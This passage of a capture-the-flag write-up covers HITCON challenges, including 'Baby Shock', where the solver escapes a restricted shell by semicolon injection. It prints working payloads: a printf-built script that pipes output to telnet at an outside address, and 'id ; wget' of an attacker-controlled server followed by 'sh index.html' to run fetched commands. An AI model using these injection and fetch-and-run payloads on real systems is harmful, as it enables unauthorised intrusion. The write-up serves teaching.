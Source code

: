 ```bash
printf '1'>>f;
printf '0'>>f;
printf '5'>>f;
printf ' '>>f;
printf '4'>>f;
printf '3'>>f;
printf '2'>>f;
printf '1'>>f;
sh f;
```

Which, when executed, creates the file `f` containining:

```bash
(ls -l && echo hitcon{Why_can_one_place_be_injected_twice}>flag &&l s -l)|telnet 192.168.0.105 4321
```

Which contains the flag!


Baby Shock
----------

> `nc 54.248.135.16 1986`

### The challenge

We can connect via netcat to a machine, which contains an extremely limited shell, where the only commands we can run are `pwd ls mkdir netstat sort printf exit help id mount df du find history touch
` and (most of the) special characters are filtered

### The solution

For some reason, `;` is not filtered. This means that we can run any command by
doing `id ; mycommand`, as long as mycommand does not contain special characters
(such as `-`, so most flags are forbidden).

Also, the `.` is restricted, and cannot appear more than once in a command.

So first we execute:

```bash
id ; wget 123456789
```

where 123456789 is the IP (encoded as decimal number) of a HTTP serve we
control, that hosts an index.html containing shell commands.

We then execute it via the command:

```
id ; sh index.html
```

Which allows us to explore the filesystem, and see that there is a `readFlag`
binary in `/`. By executing it we get the flag.


Revenge of Baby Shock
---------------------

